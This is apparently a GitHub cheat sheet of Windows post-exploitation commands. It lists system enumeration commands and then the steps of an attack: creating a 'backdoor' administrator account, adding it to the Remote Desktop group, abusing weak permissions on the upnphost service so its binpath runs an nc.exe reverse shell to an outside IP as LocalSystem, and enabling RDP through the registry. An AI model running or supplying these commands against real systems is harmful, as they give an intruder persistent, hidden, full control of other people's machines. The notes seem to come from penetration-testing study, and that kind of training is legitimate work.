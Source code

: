 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

` accesschk.exe -ucqv SSDPSRV`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`



windows service requires the executable to send back some feedback call within 30 seconds after a service had started. Or else, it will considered it as failed start attempt and terminate the service.

there are few workarounds on this, the easiest way is simply wrap your command in cmd.exe. i.e, cmd.exe /k <ur command>.


We can enable remote desktop from windows command line by running the following command:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f





